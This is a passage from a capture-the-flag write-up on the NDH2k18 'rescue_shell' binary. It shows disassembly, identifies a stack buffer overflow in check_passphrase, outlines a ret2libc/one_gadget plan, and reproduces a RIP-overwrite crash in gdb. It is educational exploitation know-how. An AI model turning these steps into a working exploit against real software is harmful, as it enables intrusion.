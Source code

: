 ```C
|           0x00400797      e814feffff     call sym.imp.strncmp        ; int strncmp(const char *s1, const char *s2, size_t n)
|           0x0040079c      85c0           test eax, eax
|           0x0040079e      0f94c0         sete al
|           0x004007a1      0fb6c0         movzx eax, al
|           0x004007a4      c9             leave
\           0x004007a5      c3             ret
[0x00400660]>
```

From the main we can see it is called using our input and the size of bytes read. More interestingly, there is a call to `memcpy` using these values. However, the stack is allocated by 0x50, which is smaller than the 0xc8 maximum read size allowed in the main.

**We thus have a buffer overflow on the check_passphrase function!**

One final interesting thing to look at is the `sym.admin_shell` function to see how we can get a shell from it. Unfortunately, it happens that this function is a fake and prints a message stating it is disabled.

# Exploitation

## Summary and action plan.

What we have so far:

 * buffer overflow on `sym.check_passphrase`
 * no function to spawn a shell
 * the `libc.so.6` file that the binary uses
 * no canary
 * NX bit enabled

Fair enough! The plan is:

 1 Overwrite RIP to get control over the execution flow
 2 LEAK the address of a function
 3 Calculate offset difference between this function and one_gadget
 4 Survive leak and execute one_gadget
 5 ???
 6 profit!

## RIP overwriting

For this step, I used gdb along with [wapiflapi's gxf](https://github.com/wapiflapi/gxf) extension.

```gdb
$ gdb ./rescue 
Reading symbols from rescue...(no debugging symbols found)...done.
(gdb) gx cyclic 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac
(gdb) r
Starting program: /home/ark/security/challz/NDH2k18_quals/rescue_shell/rescue 
RescueShell 0.4
=================

Welcome anonymous ! This shell is restricted, please log in.

Password: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac

Program received signal SIGSEGV, Segmentation fault.
0x00000000004007a5 in check_passphrase ()
```